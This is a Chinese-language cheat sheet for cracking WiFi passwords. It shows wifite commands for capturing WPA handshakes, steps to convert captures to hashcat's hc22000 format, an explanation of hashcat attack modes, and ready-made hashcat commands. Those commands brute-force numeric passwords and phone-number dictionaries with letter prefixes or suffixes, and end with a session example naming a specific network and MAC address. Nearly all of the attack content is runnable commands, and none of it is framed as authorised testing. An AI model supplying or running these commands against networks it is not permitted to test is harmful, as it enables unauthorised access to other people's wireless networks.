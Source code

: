 ## 抓包
```
sudo wifite --kill --new-hs -mac --no-wps --skip-crack --no-pmkid #--clients-only

sudo airmon-ng stop wlan0mon
sudo airmon-ng stop wlan1mon
sudo systemctl start NetworkManager
```


[hashcat跑包方法 - zhihu.com](https://zhuanlan.zhihu.com/p/682659342)


## 转换
1、如果你抓到的是hccapx格式，先到：[格式转换](https://www.nnnxxx.cn)，使用在线工具把hccapx转为cap。如果本身的包就是cap格式，则这一步可以省略。
2、有了cap文件以后，我们到hashcat的官方，使用在线工具[cap2hcc22000](https://hashcat.net/cap2hashcat/)把cap转为hashcat格式hc22000
3、hcxpcapngtool转换格式
  `hcxpcapngtool -o hs.hc22000 hs.cap`


## 选项
想要用hashcat跑包，你必须告诉hashcat几方面的信息：

1、用什么方式跑。用字典还是掩码，还是字典和掩码的结合。这个是用-a来指定。

2、跑什么类型的密码。是wifi的，还是office的，还是zip的等等。这个是用-m来指定。

3、跑出来的密码保存到哪里。这个是用-o选项来指定。

4、握手文件在哪里，还有要是跑字典的话，字典文件在哪里。这个直接给出路径就行。


### -a
-a选项有下面几个选择：

-a 0 纯字典破解。

-a 1 两个字典组合破解。比如一个字典里是123，另一个字典里是abc，跑的时候会组合成123abc这个密码（笛卡尔积）。

-a 3 纯掩码破解，字典要是太大放不大，可以用掩码

-a 6 字典加掩码组合。也是做笛卡尔积。

-a 7 掩码加字典组合。做笛卡尔积。

-a 9 [wiki / 关联攻击 - hashcat.net](https://hashcat.net/wiki/doku.php?id=association_attack)


## 例子
1、跑8位纯数字wifi密码，用掩码最合适。
```
.\hashcat.exe   -a  3  -m  22000  -o  found.txt    D:\hash\woshoubao.hc22000   ?d?d?d?d?d?d?d?d
```
2、跑手机号，用字典合适。
```
.\hashcat.exe   -a  0  -m  22000  -o  found.txt    D:\hash\woshoubao.hc22000   D:\zidian\jinanshoujihao.txt
```
3、跑9到10位纯数字，用掩码最合适。
```
.\hashcat.exe   -a  3  -m  22000  -o  found.txt  --increment  --increment-min 9   --increment-max  10  D:\hash\woshoubao.hc22000    ?d?d?d?d?d?d?d?d?d?d
```
4、跑前面一个小写字母后面是手机号，比如a15966670284
```
.\hashcat.exe   -a  7  -m  22000  -o  found.txt   D:\hash\woshoubao.hc22000  ?l  D:\zidian\jinanshoujihao.txt
```
5、跑前面一个大写字母或小写字母后面是手机号，比如a15966670284或A15966670284
```
.\hashcat.exe   -a  7  -m  22000  -o  found.txt   --custom-charset1  ?u?l  D:\hash\woshoubao.hc22000  ?1  D:\zidian\jinanshoujihao.txt
```
6、跑前面是手机号后面是一个大写字母或小写字母，比如15966670284a或15966670284A
```
.\hashcat.exe   -a  6  -m  22000  -o  found.txt   --custom-charset1  ?u?l  D:\hash\woshoubao.hc22000
```


## 会话
```
hashcat --session MIFI2080 -a 3 -m 22000 handshake_MIFI2080_00-90-4C-35-0C-A9_2025-08-21T21-04-40.hc22000 8-14--lud--1-4--1-4--7-11.txt
hashcat --session MIFI2080 --restore
```
